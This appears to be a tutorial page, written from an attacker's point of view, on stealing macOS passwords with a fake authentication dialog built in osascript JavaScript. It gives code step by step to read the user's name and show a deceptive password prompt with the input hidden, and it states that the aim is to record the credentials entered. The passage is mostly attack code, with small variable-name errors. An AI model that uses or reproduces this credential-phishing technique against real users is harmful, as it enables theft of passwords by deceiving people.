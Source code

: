 for (legitimate) app developers, the method to get access to credentials is simple: prompts. however, this method isn't ideal for adversaries because it requires some level of elevated credentials. as always, we might be able to use this to our advantage. 

![alt text](image-prompt.png)


# credential acces via prompts

users have become increasingly trained to authenticate to any popup on their machine. this leads us to an obvious next-step: create custom popup messages to ask for authentication, and record the credentials entered. 

first, set up the scripting environment by initializing `osascript` with javascript. 

```bash
osascript -l JavaScript -i
```

inside the new environment, create an `app` object that represents the current application and enables standard additions, which allows us to use the dialog functions.

```js
let app = Application.currentApplication()
app.includeStandardAdditions = true
```

now, for the main function. in OSA JavaScript, the `run()` function is the entry point of the script.


```js
function run() {

}
```

using shell commands, get the user's full name + username.

```js
const fullName = app.doShellScript('id -F')
const username = app.doShellScript('whoami')
```

define the title, text, default answer, and icon for the dialog. these will be displayed to the user.

```js
const title = `Hello ${fullname}`
const text = `Hi ${username}, please enter your password:`
const answer = ""
const icon = "caution"
```

display the dialog, and wrap it in a try-catch block to handle cancellations or errors.

```js
try {
    let propmpt = app.displayDialog(text, {
        defaultAnswer: answer,
        buttons: ['OK', 'Cancel'],
        defaultButton: 'OK',
        cancelButton: 'Cancel',
        withTitle: title,
        withIcon: icon,
        hiddenAnswer: true
    })
} catch (err){
    // handle errors
}
```

